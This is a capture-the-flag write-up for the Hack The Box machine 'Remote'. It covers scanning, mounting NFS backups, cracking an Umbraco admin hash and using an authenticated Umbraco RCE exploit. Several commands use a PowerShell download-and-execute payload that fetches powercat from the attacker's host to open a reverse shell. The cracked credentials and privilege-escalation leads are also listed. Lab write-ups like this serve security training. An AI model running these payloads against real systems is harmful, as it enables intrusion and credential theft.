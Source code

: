 ```yaml
---
title: "Remote"
date: 2024-11-03
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "remote", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Remote

# Remote

OS: Windows
Difficulty: Easy

# Summary
- password spraying FTP, SMB, winrm did not return any hits with username.txt

# Credentials
```text
admin@htb.local : baconandcheese
```

# Todo 
- [ ] FTP
- [ ] SMB
- [ ] 47001 - HTTP
- [ ] umbraco - brute force HTTP login form
- [ ] Find credentials or find Umbraco version number

# Enumeration
## Nmap
```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## 80
![screenshot](/assets/images/remote1.png)

http://10.10.10.180/umbraco
![screenshot](/assets/images/remote3.png)

http://10.10.10.180/1111
![screenshot](/assets/images/remote4.png)


## FTP
![screenshot](/assets/images/remote2.png)

## RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![screenshot](/assets/images/remote5.png)
## SMB


## 2049 NFS
```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![screenshot](/assets/images/remote6.png)
### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![screenshot](/assets/images/remote7.png)

Copy the hash and format, and save it as `admin.sha1`

![screenshot](/assets/images/remote8.png)

Crack with joh

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```

![screenshot](/assets/images/remote9.png)

![screenshot](/assets/images/remote10.png)

![screenshot](/assets/images/remote11.png)

# Foothold
[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![screenshot](/assets/images/remote12.png)

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work changed the exploit to this. 
https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![screenshot](/assets/images/remote13.png)

![screenshot](/assets/images/remote14.png)


# Privilege Escalation
```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![screenshot](/assets/images/remote15.png)

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![screenshot](/assets/images/remote17.png)

SeImpersonate

![screenshot](/assets/images/remote18.png)
